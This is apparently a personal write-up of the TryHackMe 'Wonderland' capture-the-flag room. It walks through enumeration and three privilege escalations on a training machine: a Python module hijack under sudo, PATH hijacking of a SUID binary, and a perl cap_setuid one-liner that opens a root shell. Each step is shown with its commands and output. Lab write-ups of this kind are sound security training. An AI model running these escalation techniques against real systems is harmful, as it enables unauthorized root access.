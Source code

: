 # Wonderland (THM)

- https://tryhackme.com/room/wonderland
- March 15, 2023
- medium

---

## Enumeration

### Nmap

```
PORT   STATE SERVICE REASON     VERSION
22/tcp open  ssh     syn-ack    OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

### HTTP

![](screenshots/2023-03-15-16-37-27.png)

- directory brute forcing with ffuf
- `img`, `r`
- from `img` dir, there are 3 images found
- get to local machine to analyse later
- `r`

![](screenshots/2023-03-15-16-40-21.png)

- need directory brute forcing and do with ffuf
- found `a`
- is it `r/a/b/b/i/t` ?
- yes, it is right

![](screenshots/2023-03-15-16-45-35.png)

- found something 

![](screenshots/2023-03-15-16-48-06.png)

- may be `username:something`
- as there is ssh port open and enter with above credentials

## User Access

- enter ssh and get `alice` user shell

```sh
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
- alice can run `sudo /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as `rabbit` user with `sudo`
- there is only read access for that file

```
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py
```
- read the content of that file

```python
import random
poem = """
...
long poem string
...
"""
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

- random module is imported 
- we can create `random.py` file in this directory and write the content like this to get `rabbit's` shell
- in alice's home directory,

```sh
alice@wonderland:~$ echo "import os; os.system('/bin/bash');" > random.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
rabbit@wonderland:~$ whoami
rabbit
```
- get rabbit access
- in rabbit's home directory,

```sh
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty

rabbit@wonderland:/home/rabbit$ file teaParty 
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```
- one suid program can be found
- get that file to our machine to analyse
- first need to copy under tmp folder and

```sh
$ scp alice@$IP:/tmp/teaParty teaParty
```
- analyse with `strings teaParty` and found that

![](screenshots/2023-03-15-17-07-45.png)

- can we inject `date` with malicious code 
- first create `date` executable file under `/tmp` folder
- then just write `/bin/bash` inside date
- update the path by adding `/tmp` at first 
- then execute the `teaParty` file

```sh
rabbit@wonderland:/tmp$ cat /tmp/date
#!/bin/bash
/bin/bash

rabbit@wonderland:/tmp$ chmod +x /tmp/date

rabbit@wonderland:/tmp$ ls -la /tmp/date
-rwxr-xr-x 1 rabbit rabbit 22 Mar 15 10:40 /tmp/date

rabbit@wonderland:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

rabbit@wonderland:/tmp$ PATH=/tmp:$PATH

rabbit@wonderland:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

rabbit@wonderland:/home/rabbit$ cd /home/rabbit

rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
```

- we get `hatter` account
- found `password.txt` under his home directory `/home/hatter/password.txt` but it is not the password for root
- it is password for himself
- `sudo -l` -> cannot run sudo 
- find suid -> nothing special
- find capabilities

```sh
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

## Root Access

- from gtfobin, found `perl` capabilities

```sh
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

# whoami
root
```

---